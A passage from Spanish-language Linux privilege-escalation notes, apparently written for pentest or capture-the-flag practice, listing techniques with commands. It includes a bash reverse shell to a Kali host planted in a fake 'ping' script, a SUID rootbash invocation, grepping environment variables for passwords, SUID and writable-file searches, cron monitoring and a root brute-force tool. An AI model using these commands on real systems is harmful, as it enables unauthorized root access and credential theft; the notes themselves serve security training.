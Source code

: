 /tmp/rootbash -p


Otra forma de hacerlo:

creo un archivo ping y coloc el siguiente código en su interior:

#//bin/bash
bash -c "bash -i >& /dev/tcp/IP-KALI/443 0>&1"

luego en kali me pongo en escucha con netcat en el puerto 443 y listo tengo conexión con el usuario root.

********************************************************

Parte 11.- Ver la variable de entorno env:

ejecutamos env

podemos encontrar alguna contraseña de algún usuario

env | grep username

Ejemplo para el usuario dylan

env | grep dylan

Parte 12.- Ver permisos SGID

funciona con binarios SUID:

find / -perm -4000 -type f 2>/dev/null

********************************************************

Parte 12.- Archivos con permisos de escritura:

find / -writable 2>/dev/null | grep -v -i -E 'proc|sys|dev|run|irc|home|tmp'

- /etc/hosts -> tiene que funcionar con alguna tarea cron que se ejecute ping algún dominio, lo podemos analizar con pspy64

- /opt/service.ps1
con esto veo si un ejecutable se ejecuta usando una tarea cron:

while true; do ps aux | grep -e "service.ps1" | grep -v grep; done

********************************************************

Parte 13.- Comando history

history

********************************************************

Parte 14.- Ejecutar fuerza bruta al usuario root con suForce

https://github.com/d4t4s3c/suForce/tree/main

Parte 15.- listar conexiones de red activas y sockets en escucha (servicios)


ss -tuln
